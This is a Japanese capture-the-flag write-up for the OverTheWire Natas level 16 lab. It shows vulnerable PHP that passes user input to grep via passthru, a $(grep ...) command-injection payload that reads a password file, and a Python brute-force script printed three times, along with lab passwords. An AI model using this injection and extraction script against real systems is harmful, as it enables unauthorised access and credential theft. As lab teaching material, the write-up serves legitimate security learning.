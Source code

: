 # Natas16
```
Username: natas16
Password: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
URL:      http://natas16.natas.labs.overthewire.org
```

`For security reasons, we now filter even more on certain characters`と、特定の文字を禁止されたらしい。

とりあえず`View sourcecode`
```
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
```
```
passthru("grep -i \"$key\" dictionary.txt");
```
`grep -i 入力した文字 dictionary.txt`となっている。  
このコマンドは「入力した文字がパスワードの文字に入っているか？」を調べるものである。  
つまりLevel15の時のように全通り試せば良いというわけである。  

`doomed$(grep 調べる文字 /etc/natas_webpass/natas17)`
で調べることができる。

今回はその文字が入っているとdoomedと表示されるので、Level15とは逆である点に注意。

残念ながらpythonが書けないのでカンニング
https://www.abatchy.com/2016/11/natas-level-16
```
import requests  
from requests.auth import HTTPBasicAuth  
  
auth=HTTPBasicAuth('natas16', 'TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V')  
  
filteredchars = ''  
allchars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'  
for char in allchars:  
 r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=doomed$(grep ' + char + ' /etc/natas_webpass/natas17)', auth=auth)  
   
 if 'doomed' not in r.text:  
  filteredchars = filteredchars + char  
  print(filteredchars)  
```


実行すると、`bhjkoqsvwCEFHJLNOT57890`が使用されているのがわかる

これをpayloadとしてアタックすればいい
```
import requests  
from requests.auth import HTTPBasicAuth  
  
auth=HTTPBasicAuth('natas16', 'TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V')  
  
filteredchars = ''  
passwd = ''  
allchars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'  
for char in allchars:  
 r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=doomed$(grep ' + char + ' /etc/natas_webpass/natas17)', auth=auth)  
   
 if 'doomed' not in r.text:  
  filteredchars = filteredchars + char  
  print(filteredchars)  
  
for i in range(32):  
 for char in filteredchars:  
  r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=doomed$(grep ^' + passwd + char + ' /etc/natas_webpass/natas17)', auth=auth)  
    
  if 'doomed' not in r.text:  
   passwd = passwd + char  
   print(passwd)  
   break  
```
これで答えが得られる
```
EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
```



おまけ  
使用されている文字を解析→その文字を使用して並び替え特定をするプログラム
```
import requests  
from requests.auth import HTTPBasicAuth  
  
auth=HTTPBasicAuth('natas16', 'hPkjKYviLQctEW33QmuXL6eDVfMW4sGo')  
  
filteredchars = ''  
passwd = ''  
allchars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'  
for char in allchars:  
 r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=doomed$(grep ' + char + ' /etc/natas_webpass/natas17)', auth=auth)  
   
 if 'doomed' not in r.text:  
  filteredchars = filteredchars + char  
  print(filteredchars)  
  
for i in range(32):  
 for char in filteredchars:  
  r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=doomed$(grep ^' + passwd + char + ' /etc/natas_webpass/natas17)', auth=auth)  
    
  if 'doomed' not in r.text:  
   passwd = passwd + char  
   print(passwd)  
   break 
```